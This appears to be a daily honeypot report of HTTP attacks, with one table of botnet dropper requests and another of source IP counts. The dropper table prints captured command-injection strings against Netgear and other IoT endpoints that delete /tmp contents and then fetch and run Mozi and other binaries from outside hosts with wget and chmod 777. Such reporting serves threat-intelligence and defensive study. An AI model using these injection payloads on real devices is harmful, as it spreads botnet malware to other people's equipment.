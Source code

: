 ```yaml
---
title: "Report: 2025-02-10 "
date: 2025-02-10
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-02-10
interaction report on http service of various Hhoneypot around the world.
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## botnet_dropper_behaviour
|    | remote_addr     | request                                                                                                                                                                                                                                                                                                        |
|---:|:----------------|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  0 | 59.92.219.214   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://59.92.219.214:44779/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                   |
|  1 | 123.5.150.12    | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                                                                          |
|  2 | 182.120.138.163 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                                                                          |
|  3 | 146.190.143.107 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 103.241.65.218/selfreps/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                                                                                                                                                  |
|  4 | 117.213.186.65  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://117.213.186.65:60985/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                  |
|  5 | 141.98.11.35    | GET /shell?killall+-9+arm7;killall+-9+arm4;killall+-9+arm;killall+-9+/bin/sh;killall+-9+/bin/sh;killall+-9+/z/bin;killall+-9+/bin/bash;cd+/tmp;rm+drea4+efefa7;wget+http:/\x5C/176.65.140.135/efefa7;chmod+777+efefa7;./efefa7+jaws;wget+http:/\x5C/176.65.140.135/drea4;chmod+777+drea4;./drea4+jaws HTTP/1.1 |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                   127 | 146.59.252.144  |
|   1 |                    81 | 45.148.10.90    |
|   2 |                    45 | 193.68.89.10    |
|   3 |                    45 | 111.23.122.227  |
|   4 |                    45 | 130.61.112.36   |
|   5 |                    45 | 103.88.240.124  |
|   6 |                    36 | 185.196.220.253 |
|   7 |                    30 | 78.153.140.177  |
|   8 |                    26 | 92.255.57.58    |
|   9 |                    26 | 60.191.125.35   |
|  10 |                    26 | 78.153.140.224  |
|  11 |                    24 | 162.243.87.192  |
|  12 |                    20 | 93.174.93.12    |
|  13 |                    18 | 78.153.140.149  |
|  14 |                    16 | 46.19.143.10    |
|  15 |                    15 | 173.234.107.200 |